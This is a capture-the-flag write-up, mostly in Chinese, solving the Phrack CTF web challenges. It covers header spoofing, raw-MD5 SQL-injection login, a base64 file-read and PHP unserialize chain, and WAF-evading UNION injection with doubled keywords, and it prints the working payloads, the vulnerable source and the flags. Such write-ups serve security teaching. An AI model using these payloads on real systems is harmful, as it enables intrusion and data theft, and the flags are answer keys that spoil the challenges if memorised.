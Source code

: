# Phrack CTF WEB

1. PORT51
    > Please use port 51 to visit this site.

    - curl

2. LOCALHOST
    - `X-Forwarder-For: 127.0.0.1`

3. Login
    - password 129581926211651571912466741651878684928 or 1839431
    - `PCTF{R4w_md5_is_d4ng3rous}`
    - [SQL injection with raw MD5 hashes](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
    - [SQL injection with raw MD5 hashes ](http://www.joychou.org/index.php/web/SQL-injection-with-raw-MD5-hashes.html?utm_source=tuicool)

4. 神盾局的秘密
    > 这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

    - 题面源码很短：`<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>`
    - 发现参数`img`的值为`c2hpZWxkLmpwZw==`，看起来好像是Base64的样子（根据曹小白的说法：1. 末尾有等号；2. 大小写混杂，解码后发现为`shield.jpg`，进一步验证想法。
    - 通过 `view-source:http://web.phrack.top:32779/showimg.php?img=c2hvd2ltZy5waHA=` 查看 `showimg.php` 源码：
        ```
        <?php
        	$f = $_GET['img'];
        	if (!empty($f)) {
        		$f = base64_decode($f);
        		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
        		&& stripos($f,'pctf')===FALSE) {
        			readfile($f);
        		} else {
        			echo "File not found!";
        		}
        	}
        ?>
        ```
    - `showimg.php` 源码中规定了`img`参数的打开规则：
        - 不允许包含`..`, `/`, `\\`, `pctf` 等字符
        - 传入的参数需要经过Base64编码
    - 尝试通过 `view-source:http://web.phrack.top:32779/showimg.php?img=aW5kZXgucGhw` 查看 `index.php` ：
        ```
        <?php
        	require_once('shield.php');
        	$x = new Shield();
        	isset($_GET['class']) && $g = $_GET['class'];
        	if (!empty($g)) {
        		$x = unserialize($g);
        	}
        	echo $x->readfile();
        ?>
        <img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
        ```
    - 发现一个叫做`shield.php`的东西，`view-source:http://web.phrack.top:32779/showimg.php?img=c2hpZWxkLnBocA==` 得到：
        ```
        <?php
        	//flag is in pctf.php
        	class Shield {
        		public $file;
        		function __construct($filename = '') {
        			$this -> file = $filename;
        		}

        		function readfile() {
        			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
        			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
        				return @file_get_contents($this->file);
        			}
        		}
        	}
        ?>
        ```
    - 发现`//flag is in pctf.php`，简直开心，直接访问`view-source:http://web.phrack.top:32779/showimg.php?img=cGN0Zi5waHA=`获取flag，然而`File not found!`。
    - 返回去研究`index.php`源码，发现还有个名为`class`的参数未用。由源码，`class`应为经过序列化的一个名为`Shield`的类，定义见`shield.php`。
    - 通过以下代码生成需要传入`class`的值：
        ```
        <?php
        class Shield {
            public $file;
            function __construct($filename = 'pctf.php') {
                $this -> file = $filename;
            }

            function readfile() {
                if (!empty($this->file) && stripos($this->file,'..')===FALSE
                && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                    return @file_get_contents($this->file);
                }
            }
        }
        $x = new Shield();
        // $g = "O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}";
        $g = serialize($x);
        echo str_replace("\"", "%22", $g);  //强序列化后的内容转换为url中可传入的参数
        // echo $g;
        ?>
        ```
    - 得到页面源代码：
        ```
        <?php
        	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
        	//Fake flag:
        	echo "FLAG: PCTF{I_4m_not_fl4g}"
        ?>
        <img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
        ```
    - `PCTF{W3lcome_To_Shi3ld_secret_Ar3a}`

5. IN A Mess

    > 连出题人自己都忘了flag放哪了，只记得好像很混乱的样子。

    - 页面内容`work harder!harder!harder!`
    - 查看源代码，发现只有一行：`<!--index.phps-->work harder!harder!harder!`。 **仔细** 观察，发现`index.phps`是什么鬼东西，遂打开看看。
    - 得到代码如下：
        ```
        if(!$_GET['id'])
        {
            header('Location: index.php?id=1');
            exit();
        }
        $id=$_GET['id'];
        $a=$_GET['a'];
        $b=$_GET['b'];
        if(stripos($a,'.'))
        {
            echo 'Hahahahahaha';
            return ;
        }
        $data = @file_get_contents($a,'r');
        if ($data=="1112 is a nice lab!" and
            $id==0 and
            strlen($b)>5 and
            eregi("111".substr($b,0,1),"1114") and
            substr($b,0,1)!=4)
        {
            require("flag.txt");
        }
        else
        {
            print "work harder!harder!harder!";
        }
        ```
    - 通过代码可以得知，如果我们想要得到`flag.txt`则需要以下满足五个条件：
        1. `$data=="1112 is a nice lab!"`，其中`$data = @file_get_contents($a,'r')`
        2. `$id==0`
        3. `strlen($b)>5`
        4. `eregi("111".substr($b,0,1),"1114")`
        5. `substr($b,0,1)!=4`
    - 所以构造出可以获得flag的连接：`index.php?id=0a&a=data:text/plain,1112%20is%20a%20nice%20lab!&b=.whaterever`，获得页面`﻿Come ON!!! {/^HT2mCpcvOLf}`。
    - 查看新的地址`^HT2mCpcvOLf/index.php?id=1`，页面内容为`hi666`，测试GET参数`id`，发现有注入点和WAF。
    - 进行注入尝试：
        - 检查WAF
            - `?id='--` 得到 `SELECT * FROM content WHERE id='--`
            - `?id=0` 会跳转到 `?id=1`，判断为0条件不成立
            - `?id='%20--` 得到 `you bad boy/girl!`，对空格有过滤，采用注释符`/*s*/`达到分割的目的。
            - `?id=0/*s*/union/*s*/select/*s*/1,2,3/*s*/from/*s*/dual`，同样会被墙
        - 数据库信息搜集
            - 判定页面内容位置：`?id=0/*s*/ununionion/*s*/selselectect/*s*/1,2,3/*s*/frofromm/*s*/dual`，得到`3`
            - 判定数据库版本：`?id=0/*s*/ununionion/*s*/selselectect/*s*/1,2,version()/*s*/frofromm/*s*/dual`，得到`5.6.24`，判定为MySQL
            - 判定当前库名：`?id=0/*s*/ununionion/*s*/selselectect/*s*/1,2,database()/*s*/frofromm/*s*/dual`，得到`test`
            - 获得所有表名： `?id=0/*s*/ununionion/*s*/selselectect/*s*/1,2,group_concat(table_name)/*s*/frofromm/*s*/information_schema.tables/*s*/where/*s*/version=10`，得到`CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TAB`
            - 获得`test`下表名：`?id=0/*s*/ununionion/*s*/selselectect/*s*/1,2,group_concat(table_name)/*s*/frofromm/*s*/information_schema.tables/*s*/where/*s*/table_schema=0x74657374`，得到`content`
                - `0x74657374`为test十六进制编码
            - 获得`content`下列名：`?id=0/*s*/ununionion/*s*/selselectect/*s*/1,2,group_concat(column_name)/*s*/frofromm/*s*/information_schema.columns/*s*/where/*s*/table_schema=0x74657374`，得到`id,context,title`，所以我们之前能看到的`hi666`是`title`
        - 取得flag：`?id=0/*s*/ununionion/*s*/selselectect/*s*/1,2,context/*s*/frofromm/*s*/test.content`
            - `PCTF{Fin4lly_U_got_i7_C0ngRatulation5}`
    - Ref
        - [PHP中的header函数](http://www.cnblogs.com/fengzheng126/archive/2012/04/21/2461475.html)
        - [MySql注入科普](http://drops.wooyun.org/tips/123)
        - [MySQL注入技巧](http://drops.wooyun.org/tips/7299)
        - [MYSQL注入语句大全](http://www.2cto.com/Article/201108/99744.html)

6. RE?
    - so文件

7. flag在管理员手里
